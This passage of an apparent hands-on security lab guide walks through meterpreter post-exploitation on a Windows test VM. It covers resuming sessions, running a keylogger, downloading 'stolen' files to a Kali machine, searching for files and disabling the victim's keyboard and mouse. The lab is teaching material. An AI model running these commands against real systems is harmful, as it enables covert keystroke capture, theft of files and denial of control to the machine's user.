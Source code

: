 

## Switch sessions

24. Let's recover your meterpreter shell. Run `sessions -l` to view all running connections. You should see your meterpreter session, along with its `id`.

    Interact with that session again by running `sessions <the id of the session>`. Your prompt should change, and you should be engaged with the meterpreter session again.


## Keylogger    

24.	Start a keylogger on the victim's computer. Type `keyscan_start`. Now, from the Windows machine, open Notepad.exe and type some secrets. They are no longer secrets.
    Back in meterpreter, type `keyscan_dump`.
    You should see the text you typed in Notepad. To stop the keylogger, type `keyscan_stop`.

## Steal files

25.	Steal a file -- download a file from Windows to Kali.

    Use Notepad to create a text document on the Desktop of the Windows machine. Put more secrets in it.

    From the meterpreter session, use the `cd` command within Meterpreter to navigate to the victim desktop. For that, you can either use the Windows path specification, with double back-slashes:

        cd c:\\users\\IEUser\\desktop

    ... or you can use linux path specification:

        cd /Users/IEUser/desktop

    Now type `ls` to see what you might pilfer.

    Snag the secrets file.

        download [filename to steal]

    The file should now be pilfered, saved to the Kali VM at `/root`.

26. You can also use the `search` command from within meterpreter to find the secrets file again:

        search -f [name of your secrets file].txt



## Annoy the user

26.	First, disable their keyboard and mouse:

        uictl disable all

    Then, play a video for them. We'll use the `play_youtube` post module. Read about it from within meterpreter:

        info post/multi/manage/play_youtube
